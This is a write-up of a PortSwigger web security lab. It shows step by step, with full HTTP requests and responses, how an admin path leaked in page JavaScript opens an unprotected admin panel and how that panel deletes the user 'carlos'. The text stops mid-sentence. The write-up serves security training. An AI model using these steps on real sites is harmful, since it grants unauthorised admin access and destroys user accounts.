

## Lab: Unprotected admin functionality with unpredictable URL

This lab has an unprotected admin panel. It's located at an unpredictable location, but the location is disclosed somewhere in the application.

Solve the lab by accessing the admin panel, and using it to delete the user `carlos`.

## Solution:
When entering the root of the site we find a script-tag in the response containing some javascript that creates an a-tag with a href pointing to ```/admin-4akd4x``` if the isAdmin variable is set to true. But we get the endpoint either way.

Request:
```http
GET / HTTP/1.1
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 11051

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>Unprotected admin functionality with unpredictable URL</title>
    </head>
**********SNIP**********
<script>
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-4akd4x');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
</script>
**********SNIP**********
```

We try to send a request to this endpoint.
Request:
```http
GET /admin-4akd4x HTTP/2
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3536

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Unprotected admin functionality with unpredictable URL</title>
    </head>
**********SNIP**********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin-4akd4x/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin-4akd4x/delete?username=carlos">Delete</a>
                        </div>
                    </section>
**********SNIP**********
```

In the response snippet we find the URI:s for deleting users again.
Request:
```http
GET /admin-4akd4x/delete?username=carlos HTTP/2
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 302 Found
Location: /admin-4akd4x
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

We get a 302 which redirects us back to the admin panel with the message  
